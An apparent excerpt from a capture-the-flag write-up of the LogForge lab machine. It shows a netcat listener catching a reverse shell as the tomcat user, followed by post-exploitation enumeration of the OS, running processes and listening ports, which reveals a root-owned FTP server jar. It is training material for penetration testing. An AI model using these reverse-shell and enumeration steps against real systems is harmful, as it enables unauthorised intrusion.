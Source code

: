 ```bash
$ rlwrap -cAr nc -nlvp 9999               
listening on [any] 9999 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.138] 55492
bash: cannot set terminal process group (787): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@LogForge:/var/lib/tomcat9$ id
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

```bash
tomcat@LogForge:/tmp$ uname -a
Linux LogForge 5.4.0-77-generic #86-Ubuntu SMP Thu Jun 17 02:35:03 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

```bash
tomcat@LogForge:/tmp$ cat /etc/os-release
cat /etc/os-release
NAME="Ubuntu"
VERSION="20.04.3 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.3 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal
```

```bash
tomcat@LogForge:/var/lib/tomcat9$ ps -ef --forest
UID          PID    PPID  C STIME TTY          TIME CMD
...
root         768       1  0 03:31 ?        00:00:00 /usr/sbin/cron -f
root         944     768  0 03:32 ?        00:00:00  \_ /usr/sbin/CRON -f
root         945     944  0 03:32 ?        00:00:00      \_ /bin/sh -c /root/run.sh
root         946     945  0 03:32 ?        00:00:00          \_ /bin/bash /root/run.sh
root         947     946  0 03:32 ?        00:00:12              \_ java -jar /root/ftpServer-1.0-SNAPSHOT-all.jar
...
```

```bash
tomcat@LogForge:/var/lib/tomcat9$ netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      789/java            
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::21                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
```